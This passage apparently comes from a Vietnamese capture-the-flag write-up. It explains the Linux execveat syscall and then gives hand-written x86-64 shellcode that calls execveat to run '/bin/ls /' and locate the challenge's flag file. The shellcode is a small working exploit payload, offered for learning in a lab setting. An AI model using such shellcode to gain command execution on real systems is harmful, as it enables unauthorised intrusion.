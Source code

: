 - tuy nhiên ở bài này mình sẽ sử dụng ```execveat``` 

ở đây giá trị của ```dirfd``` được bỏ qua khi ```pathname``` là 1 đường dẫn tuyệt đối , nếu path là tương đối thì ```dirfd``` giá trị là ```AT_FDCWD``` , flag và envp sẽ là NULL , 

```cs
 int execveat(int dirfd, const char *pathname,
                    char *const _Nullable argv[],
                    char *const _Nullable envp[],
                    int flags);
```

- argv là 1 mảng chứa các tham số 


```cs
char *argv[] = { "ls", NULL };
execveat(AT_FDCWD, "/bin/ls", argv, NULL, 0);
```

tương đương với

```cs
/bin/ls
```

- ở bài này trước hết mình sẽ dùng 1 /bin/ls để biết tên file flag

```cs
   push 0x42
    pop rax
    inc ah
    cqo

    push rdx
    movabs rdi, 0x2f
    push rdi
    push rsp
    pop r12

    push rdx
    movabs rdi, 0x736c2f2f6e69622f
    push rdi
    push rsp
    pop rsi

    push rdx
    push r12
    push rsi
    push rsp
    pop rdx

    xor rdi, rdi
    mov r10, rdi
    mov r8, rdi
    syscall
```
